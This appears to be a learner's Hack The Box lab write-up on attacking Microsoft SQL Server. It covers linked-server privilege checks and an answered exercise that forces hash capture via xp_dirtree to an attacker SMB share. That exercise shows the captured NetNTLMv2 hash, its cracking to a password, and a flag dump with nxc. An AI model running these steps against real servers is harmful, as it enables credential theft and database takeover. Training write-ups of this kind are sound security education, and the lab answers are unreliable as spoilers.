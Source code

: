 Next, we can attempt to identify the user used for the connection and its privileges.
```cmd-session
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO

------------------------------ ------------------------------ ------------------------------ -----------
DESKTOP-0L9D4KA\SQLEXPRESS     Microsoft SQL Server 2019 (RTM sa_remote 
```

As we have seen, we can now execute queries with sysadmin privileges on the linked server. As `sysadmin`, we control the SQL Server instance. We can read data from any database or execute system commands with `xp_cmdshell`.


### Questions

1. What is the password for the "mssqlsvc" user?
```shell
Lets create a temporary smb server:
> smbserver.py share ./ -smb2support

Connect to MSSQL and trigger authentification to our smb server to get the hash:
> mssqlclient.py htbdbuser@10.129.253.152

SQL (htbdbuser  guest@master)> EXEC master..xp_dirtree '\\10.10.14.191\share\'


On ou server: 
mssqlsvc::WIN-02:aaaaaaaaaaaaaaaa:68fdbe1243f89993e5e7d01cbdc53c36:0101000000000000808dbed38042dc01140c07c4b82f910200000000010010006e0042005800520045004c0048006700030010006e0042005800520045004c00480067000200100062005a0048006e0059007a00560057000400100062005a0048006e0059007a005600570007000800808dbed38042dc0106000400020000000800300030000000000000000000000000300000725cf774d86ded3cec7153853dc8dca6f604e512cabd26da04d67232d6c6398f0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100390031000000000000000000

Crack this hash with john:
> john hash --wordlist=/usr/share/wordlists/rockyou.txt
princess1        (mssqlsvc) 
```

2. Enumerate the "flagDB" database and submit a flag as your answer.
```shell
Connect to database with new user and nxc (Very good alternative)
> nxc mssql 10.129.253.152 -u mssqlsvc -p princess1 -q 'SELECT name FROM master.dbo.sysdatabases ; use flagDB ; SELECT table_name FROM flagDB.INFORMATION_SCHEMA.TABLES ; select * from tb_flag'
 
flagvalue:b'HTB{!_l0v3_#4$#!n9_4nd_r3$p0nd3r}'
```


----

# Latest SQL Vulnerabilities
We will focus on the undocumented MSSQL server function called `xp_dirtree` for this vulnerability. This function is used to view the contents of a specific folder (local or remote). Furthermore, this function provides some additional parameters that can be specified. These include the depth, how far the function should go in the folder, and the actual target folder.
